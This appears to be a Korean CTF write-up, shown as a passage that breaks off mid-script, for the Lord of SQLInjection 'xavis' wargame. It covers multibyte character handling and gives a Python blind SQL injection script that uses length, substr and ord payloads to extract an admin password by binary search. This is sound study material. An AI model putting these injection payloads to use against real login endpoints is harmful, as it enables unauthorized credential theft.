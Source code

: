substr 함수를 통해서 한글자를 자르면 3byte가 전부 리턴됩니다.

![image](https://user-images.githubusercontent.com/33647663/158164892-69fd4529-c798-452a-97bf-60e36fc8ec4b.png)

또한 기존에는 문자열 비교를 위해서 ascii 함수를 사용했다면, UTF 이상의 문자에서는 ascii를 사용하면 원하는 결과가 나오지 않습니다. 2byte이상의 글자에 대해서는 ord 함수를 사용해야 합니다.

![image](https://user-images.githubusercontent.com/33647663/158165096-2c38bba0-9451-42d9-aa2a-28785be5963b.png)

**ascii 함수는 3바이트 중 가장 첫번째 1바이트에 대한 값만 구해줍니다**

이정도로 정리를 하고 이 개념을 이용하여 blind sql injection을 수행해 보겠습니다.

저는 다음의 로직으로 코드를 구성했습니다.

1. 하나의 글자마다 substr으로 자르고, 그 크기가 실제로 몇 바이트인지 확인을 합니다. (전체 문자열의 길이를 정확하게 측정하기 위해서)
2. 하나의 글자에 대해서 ord 함수를 통해서 10진수로 변환된 값을 구합니다.
3. 이렇게 구한 결과들을 하나의 글자당 몇 바이트이며, 값이 몇인지를 보고 인코딩 결과를 추론합니다.

3번의 경우가 경험이 필요한 부분인데, 똑같은 한글이 유니코드로 저장되었다고 해도, UTF8인지 UTF32인지등에 따라서 다 결과가 다릅니다. 현재 문제의 경우 하나의 글자가 4바이트임을 보면 UTF8이 아닌 UTF32로 저장되어 있으며 그렇기 때문에 따로 인코딩 변환 없이 chr(50864)같이 출력을 해주면 데이터가 성공적으로 출력됩니다. 

나중에 다른 문제에서는 인코딩이 다를수도 있으니 꼭 기억을 해놓아야 하는 부분입니다.

참고한 블로그 : [https://hyoje420.tistory.com/3](https://hyoje420.tistory.com/3){: target="_blank"}

제가 작성한 전체 코드는 다음과 같습니다.

```python
import requests

url = "https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php"
cookies = {"PHPSESSID" : "1t87momi7f10m7tl6kkv6t0lob"}
params = {"pw" : None}

# 비밀번호 길이 구하기
for i in range(30):
    payload="' or id='admin' and length(pw)={}#".format(i)
    print(payload)
    params["pw"] = payload
    response = requests.get(url,params=params,cookies=cookies)
    if("Hello admin" in response.text):
        print("find the pw_length",i)
        break

# 길이 12자리
pw_length = 12
current_length = 0
idx = 0
flag = []
while(current_length<pw_length):
    idx = idx + 1
    # substr으로 한글자씩 자르면서 그 글자가 몇 글자인지 체크(한글이면 3글자, 영어 숫자면 1글자)
    for i in range(1,5):
        payload = "' or id='admin' and length(substr(pw,{},1))={}#".format(idx,i)
        params["pw"] = payload
        response = requests.get(url,params=params,cookies=cookies)
        if("Hello admin" in response.text):
            current_length = current_length + i
            print("{}번째 한글자는 {}바이트 짜리".format(idx,i))
            break
    
    # 찾아야 할 숫자의 범위가 매우 크므로 이진탐색 알고리즘 적용
    start,end=0,2**32       # 0 부터 4byte까지를 범위로 설정
    while True:
        search = int((start + end)/2)
        payload = "' or id='admin' and ord(substr(pw,{},1))<={}#".format(idx,search)
        params["pw"] = payload
```